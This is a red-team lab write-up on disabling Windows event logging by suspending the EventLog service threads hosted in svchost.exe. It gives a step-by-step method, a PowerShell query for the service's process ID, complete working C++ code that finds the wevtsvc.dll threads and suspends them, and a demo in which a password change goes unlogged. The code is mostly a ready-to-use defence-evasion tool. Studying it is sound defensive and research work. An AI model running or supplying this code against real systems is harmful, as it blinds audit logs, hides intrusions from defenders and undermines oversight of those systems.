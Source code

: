# Disabling Windows Event Logs by Suspending EventLog Service Threads

This lab was inspired by an old post [Phant0m: Killing Windows Event Log](https://artofpwn.com/phant0m-killing-windows-event-log.html) by [@hlldz](https://twitter.com/hlldz) where he introduced a powershell tool [Invoke-Phant0m](https://github.com/hlldz/Invoke-Phant0m), which disables Windows EventLog service by killing its threads hosted by the svchost.exe.

The purpose of this quick lab is to understand some of the inner workings of Invoke-Phant0m. In particular, I wanted to play around with Windows APIs related to retrieving a process ID that hosts a given service, thread enumeration, mapping threads to a particular service \(Windows Eventlog in this case\) hosted in the svchost.exe and so on. This would give me a better understanding of how I can target specific threads when I need to, I thought.

{% hint style="info" %}
Although this lab was inspired by @hlldz' post, you will notice that we implemented the same technique in a slightly different way by levarging different Windows APIs.
{% endhint %}

## Overview

Windows event logs are handled by `EventLog` service that is hosted by svchost.exe.

If we list svchost processes, we see a number of those:

![](../../.gitbook/assets/image%20%28577%29.png)

From the above screenshot, it's not clear which process actually hosts the `EventLog` service, but if we keep inspecting `svchost.exe` processes one by one in Process Hacker, we will eventually find the process hosting the `EventLog` service, which in my case it is `svchost.exe` with pid 2196:

![](../../.gitbook/assets/image%20%28572%29.png)

Note that we can find out the PID of the process that is hosting `EventLog`:

```csharp
Get-WmiObject -Class win32_service -Filter "name = 'eventlog'" | select -exp ProcessId
```

![](../../.gitbook/assets/image%20%28589%29.png)

If we look into svchost.exe threads for `EventLog`, we see there are a couple of threads of interest as highlighted in blue:

![](../../.gitbook/assets/image%20%28606%29.png)

Below shows that indeed, suspending the threas is enough to disable the EventLog service from registering any new events:

![](../../.gitbook/assets/suspended-threads-no-events%20%281%29.gif)

Based on the above, the main goal of this lab is to hack some code to find these threads and simply suspend them and disable windows event logging this way.

## Code

Below is the code for the technique that at a high level works like this:

1. Open a handle to Service Control Manager with `OpenSCManagerA`
2. Open a handle to EventLog service with `OpenServiceA`
3. Retrieve svchost.exe \(hosting EventLog\) process ID with `QueryServiceStatusEx`
4. Open a handle to the svchost.exe process \(from step 3\)
5. Get a list of loaded modules loaded by svchost.exe `EnumProcessModules`
6. Loop through the list of `svchost` loaded modules, retrieved in step 5, find their names with `GetModuleBaseName` and find the base address of the module `wevtsvc.dll` - this is the module containing `EventLog` service inner-workings
7. Get `wevtsvc.dll` module info with `GetModuleInformation`. It will return a structure with module's start address and its image size - we will need these details later, when determiing if `EventLog` service thread's fall into wevtsvc.dll module's memory space
8. Enumerate all the threads inside svchost.exe with `Thread32First` and `Thread32Next`
9. For each thread from step 8, retrieve the thread's start address with `NtQueryInformationThread`
10. For each thread from step 8, check if the thread's start address belongs to the `wevtsvc.dll` memory space inside svchost.exe
11. If thread's start address is inside the `wevtsvc.dll` memory space, this is our victim thread and we suspend it with `SuspendThread`
12. `EventLog` service is now disabled

```cpp
#include <iostream>
#include <Windows.h>
#include <Psapi.h>
#include <TlHelp32.h>
#include <dbghelp.h>
#include <winternl.h>

#pragma comment(lib, "DbgHelp")

using myNtQueryInformationThread = NTSTATUS(NTAPI*)(
    IN HANDLE          ThreadHandle,
    IN THREADINFOCLASS ThreadInformationClass,
    OUT PVOID          ThreadInformation,
    IN ULONG           ThreadInformationLength,
    OUT PULONG         ReturnLength
    );

int main()
{
    HANDLE serviceProcessHandle;
    HANDLE snapshotHandle;
    HANDLE threadHandle;

    HMODULE modules[256] = {};
    SIZE_T modulesSize = sizeof(modules);
    DWORD modulesSizeNeeded = 0;
    DWORD moduleNameSize = 0;
    SIZE_T modulesCount = 0;
    WCHAR remoteModuleName[128] = {};
    HMODULE serviceModule = NULL;
    MODULEINFO serviceModuleInfo = {};
    DWORD_PTR threadStartAddress = 0;
    DWORD bytesNeeded = 0;

    myNtQueryInformationThread NtQueryInformationThread = (myNtQueryInformationThread)(GetProcAddress(GetModuleHandleA("ntdll"), "NtQueryInformationThread"));

    THREADENTRY32 threadEntry;
    threadEntry.dwSize = sizeof(THREADENTRY32);

    SC_HANDLE sc = OpenSCManagerA(".", NULL, MAXIMUM_ALLOWED);
    SC_HANDLE service = OpenServiceA(sc, "EventLog", MAXIMUM_ALLOWED);

    SERVICE_STATUS_PROCESS serviceStatusProcess = {};

    # Get PID of svchost.exe that hosts EventLog service
    QueryServiceStatusEx(service, SC_STATUS_PROCESS_INFO, (LPBYTE)&serviceStatusProcess, sizeof(serviceStatusProcess), &bytesNeeded);
    DWORD servicePID = serviceStatusProcess.dwProcessId;

    # Open handle to the svchost.exe
    serviceProcessHandle = OpenProcess(MAXIMUM_ALLOWED, FALSE, servicePID);
    snapshotHandle = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);

    # Get a list of modules loaded by svchost.exe
    EnumProcessModules(serviceProcessHandle, modules, modulesSize, &modulesSizeNeeded);
    modulesCount = modulesSizeNeeded / sizeof(HMODULE);
    for (size_t i = 0; i < modulesCount; i++)
    {
        serviceModule = modules[i];

        # Get loaded module's name
        GetModuleBaseName(serviceProcessHandle, serviceModule, remoteModuleName, sizeof(remoteModuleName));

        if (wcscmp(remoteModuleName, L"wevtsvc.dll") == 0)
        {
            printf("Windows EventLog module %S at %p\n\n", remoteModuleName, serviceModule);
            GetModuleInformation(serviceProcessHandle, serviceModule, &serviceModuleInfo, sizeof(MODULEINFO));
        }
    }

    # Enumerate threads
    Thread32First(snapshotHandle, &threadEntry);
    while (Thread32Next(snapshotHandle, &threadEntry))
    {
        if (threadEntry.th32OwnerProcessID == servicePID)
        {
            threadHandle = OpenThread(MAXIMUM_ALLOWED, FALSE, threadEntry.th32ThreadID);
            NtQueryInformationThread(threadHandle, (THREADINFOCLASS)0x9, &threadStartAddress, sizeof(DWORD_PTR), NULL);

            # Check if thread's start address is inside wevtsvc.dll memory range
            if (threadStartAddress >= (DWORD_PTR)serviceModuleInfo.lpBaseOfDll && threadStartAddress <= (DWORD_PTR)serviceModuleInfo.lpBaseOfDll + serviceModuleInfo.SizeOfImage)
            {
                printf("Suspending EventLog thread %d with start address %p\n", threadEntry.th32ThreadID, threadStartAddress);

                # Suspend EventLog service thread
                SuspendThread(threadHandle);
                Sleep(2000);
            }
        }
    }

    return 0;
}
```

## Demo

Below GIF illustrates:

* `net user ola ola` is executed and user's ola password is changed and an event `4724` logged at 6:55:30 PM
* 4 EventLog threads are suspended in svchost.exe \(PID 2196\)
* `net user ola ola` is executed again at 6:55:38 PM, but no new event `4724` is captured

![](../../.gitbook/assets/demo-suspending-eventlog-threads%20%281%29.gif)

## References

{% embed url="https://artofpwn.com/phant0m-killing-windows-event-log.html" caption="" %}

